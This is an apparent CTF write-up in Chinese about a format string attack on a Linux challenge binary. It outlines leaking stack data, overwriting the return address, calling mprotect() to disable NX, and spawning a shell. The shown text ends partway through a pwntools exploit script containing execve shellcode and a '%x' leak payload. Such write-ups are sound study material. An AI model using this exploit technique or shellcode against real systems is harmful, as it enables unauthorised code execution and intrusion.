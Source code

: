 ```yaml
---
title: Format String in Linux
date: 2016-10-19
tag: Bin
layout: post
---
```


## 0x00 General

虽然很早就接触了格式化字符串攻击，但这一次却是第一次练习。之前虽然也用过，但是仅仅是用来leak栈上的信息而已(429CTF的leak绕过stack protect)。

这一次是全程的格式化字符串攻击：信息泄露，盖写返回地址，写入func参数。

文件除了不常见(么?)的Stack Protector以外，NX和ASLR都是开启了的(默认ASLR是开的吧?)，但是内部把`mprotect()`函数包含了进来，算作是减少了不少难度。

主要思路：
    
```bash
leak stack info -> write ret addr & other argument ->
exec mprotect() => remove NX ->
write shellcode & ret addr -> get shell
```

## 0x01 Exp

先把脚本贴上...

``` python
#!/usr/bin/env python

from pwn import *

offest = - 0x128
str_enter = "STjJaOEwLszsLwRy\n"

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

#p = remote('219.146.15.117',8000)
p = process('./pwn1')

print "Moe> Leaking information..."
leak_code = '%x.'*70 + '%x'
p.recvuntil('KEY:')
p.send(leak_code + '\n')
p.recvuntil('ERROR:')
info_leak = p.recvuntil('.8048662')

info_leak = info_leak.split('.')
stack_esp = int(info_leak[-2],16) + offest
stack_ebp = int(info_leak[-2],16)
stack_ret = stack_ebp - 0xc

print 'esp:',hex(stack_esp)
print 'ebp:',hex(stack_ebp)
print 'ret:',hex(stack_ret)

print "Moe> Remove NX protect..."
#offset into %x is 0x0b(11)
rmNX_addr = stack_esp & 0xFFFFF000
reNX_size = 0x1000
rmNX_flag = 0x7
#addr_mprotect = 0x08048420
```